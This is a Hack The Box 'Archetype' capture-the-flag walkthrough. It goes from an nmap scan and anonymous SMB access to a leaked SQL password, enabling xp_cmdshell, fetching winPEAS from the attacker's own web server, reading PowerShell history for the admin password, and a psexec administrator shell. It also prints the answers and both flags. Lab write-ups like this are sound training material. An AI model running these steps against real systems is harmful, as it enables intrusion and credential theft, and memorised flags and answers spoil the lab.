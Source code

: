 ```yaml
---
title: Archetype - Hack The Box

---
```


# Archetype - Hack The Box

### Task 1: Which TCP port is hosting a database server? 

To identify the open ports on the target machine, you can use`nmap`:

`nmap -p- -T4 -n --min-rate 1000 10.129.33.157`

And the result is:

<img src="nmap.png" />

The results show multiple open TCP ports:
<img src="nmap.png" />

- Microsoft Remote Procedure Call (msrpc): A protocol enabling communication between programs on different computers over a network.
- NetBIOS Session Service (netbios-ssn): A protocol for network file sharing over NetBIOS, typically associated with the older SMB (Server Message Block) protocol.
- Microsoft Directory Services (microsoft-ds): Provides Windows network file sharing and other services, used by the newer version of SMB.
- Microsoft SQL Server (ms-sql-s): This port (1433) is used for SQL Server communication.
- Windows Remote Management (wsman): A service enabling remote management of Windows servers using the WS-Management protocol.
- Windows Remote Management over HTTP (winrm): An extended service for remote management, including additional configurations.

Port 1433 is used by Microsoft SQL Server.
Solution: **1433**

### Task 2:  What is the name of the non-Administrative share available over SMB? 

With ports 135 and 445 open, we know that the SMB service is running, allowing file and resource sharing. To list the available SMB shares, we can use:

`smbclient -N -L 10.129.33.157`

The `-N` flag allows anonymous login, and `-L` lists available shares.

<img src="smbclientsSharenames.png" />

Even though the connection failed, it displayed some share names. To connect to the "backups" share:

`smbclient -N //10.129.33.157\\backups`

We can access the _backups_ directory, which is the non-administrative share.

Solution: **backups**

### Task 3: What is the password identified in the file on the SMB share? 

After connecting to the shared _backups_ directory, we list its contents and see the _prod.dtsConfig_ file, which likely contains configuration data.

<img src="prod-dtsConfig.png" />

By downloading the file with get and inspecting its contents, we find a username and password.

Solution: **M3g4c0rp123**

### Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? 

To log into the SQL Server, you can use the mssqlclient.py script from the Impacket toolkit. You can download it from [Impacket GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py).

The command to connect:
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.33.157 -windows-auth`

The `-windows-auth` flag specifies that we are using Windows authentication.

<img src="mssqlclient-py.png" />

Solution: **mssqlclient.py**

### Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? 

The `xp_cmdshell` extended stored procedure allows you to execute system commands directly from SQL Server. By default, this procedure is disabled, but you can enable it as follows:

`EXEC sp_configure 'show advanced options', '1';`

`RECONFIGURE;`

`EXEC sp_configure 'xp_cmdshell', '1';`

`RECONFIGURE;`

Once enabled, you can use `xp_cmdshell` to execute commands like:

<img src="whoami.png" />

This confirms that the command shell is working. You can use `powershell -c <COMMAND>` to run PowerShell commands as well.
<img src="navigationXp.png" />

After navigating through the system, we find the user flag.
<img src="userFlag.png" />

Solution: **xp_cmdshell**

### Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts? 

To escalate privileges, you can use WinPEAS, part of the PEAS suite. It helps in identifying potential privilege escalation vectors.

First, download WinPEAS from the [PEASS GitHub repository](https://github.com/peass-ng/PEASS-ng) and start an HTTP server to transfer it to the target:

`python3 -m http.server 80`

Then, use `xp_cmdshell` to download it to the target machine:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.47/winPEASx64.exe -outfile winPEASx64.exe"`

Finally, execute WinPEAS on the target:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\winPEASx64.exe"`

After reviewing the output, look for highlighted sections (in red) that indicate misconfigurations or vulnerabilities.

Solution: **WINPeas**

### Task 7: What file contains the administrator's password? 

WinPEAS points out an interesting discovery: the PowerShell history file, which may contain sensitive information.

Check the PowerShell history:

`xp_cmdshell "powershell -c type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`

<img src="ConsoleHostHistory.png" />

The file contains the administrator's password.
<img src="rootPassword.png" />

You can now use the psexec.py script from Impacket to get a reverse shell as the administrator:

`impacket-psexec Administrator@10.129.164.190`

After entering the password, you have administrator access. The root flag is located in _C:\Users\Administrator\Desktop_.
<img src="rootFlag.png" />

Great! We did it!

Solution: **ConsoleHost_history.txt**

### Flags:

User's: **3e7b102e78218e935bf3f4951fec21a3**

Root's flag: **b91ccec3305e98240082d4474b848528**